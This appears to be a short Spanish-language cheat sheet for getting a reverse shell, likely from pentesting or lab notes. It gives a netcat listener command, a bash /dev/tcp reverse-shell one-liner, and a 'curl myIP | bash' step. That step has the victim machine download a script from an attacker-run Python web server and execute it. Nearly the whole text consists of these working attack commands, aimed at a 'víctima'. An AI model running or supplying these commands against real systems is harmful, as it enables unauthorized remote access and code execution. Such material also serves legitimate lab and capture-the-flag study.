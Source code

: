 - Vamos a ponernos por escucha por el puerto que queramos:

	`sudo nc -nlvp port`

Para ganar acceso remoto, hay un método que a veces funciona, y a veces no. Se pone el consola de comandos directamente:

> `bash -i >& /dev/tcp/myIP/activePort 0>&1`

En vez de hacer esto (porque a veces no funciona), nos creamos un servidor web en el que subir un archivo con este código, el cuál se pipeará con bash para que se ejecute:

1. El fichero empezará así:

`#!/bin/bash`
`bash -i >& /dev/tcp/myIP/activePort 0>&1`

2. Nos montamos el servidor web con python.

3. Nos ponemos por escucha por el activePort:

`sudo nc -nlvp activePort`

4. Si en la máquina víctima ejecutamos:

`curl myIP | bash`

Aquí le decimos que nos baje ese archivo, y que nos lo interprete con bash.